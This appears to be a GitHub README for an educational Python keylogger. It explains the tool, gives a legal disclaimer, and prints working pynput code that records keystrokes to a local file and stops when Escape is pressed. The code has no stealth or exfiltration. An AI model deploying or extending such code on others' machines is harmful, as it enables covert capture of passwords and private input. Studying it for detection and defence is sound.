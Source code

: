 # Python Keylogger

This is a simple Python script that logs keyboard activity using the `pynput` library. It records keystrokes and saves them to a local file called `keyfile.txt`.

This tool is intended solely for educational and ethical testing purposes — such as learning how keyloggers function, how they can be detected, and how to defend against them.

---

## Disclaimer

**This project is for educational use only.**  
Do not run this script on any system without explicit written permission from the owner. Unauthorized use may violate local, state, or federal laws.

---

## How It Works

- Listens for keyboard input using `pynput.keyboard`
- Logs printable characters to `keyfile.txt`
- Records special keys like `Enter`, `Tab`, `Shift` as `[Key.enter]`, `[Key.shift]`, etc.
- Stops listening when the Escape key is pressed

### Code Overview

```python
from pynput import keyboard 

def key_pressed(key):
    print(str(key))
    with open("keyfile.txt", 'a') as logkey:
        try:
            logkey.write(key.char)
        except AttributeError:
            logkey.write(f'[{key}]')

def on_release(key):
    # Stop listener if Esc is pressed
    if key == keyboard.Key.esc:
        return False

if __name__ == "__main__":
    with keyboard.Listener(on_press=key_pressed, on_release=on_release) as listener:
        listener.join()
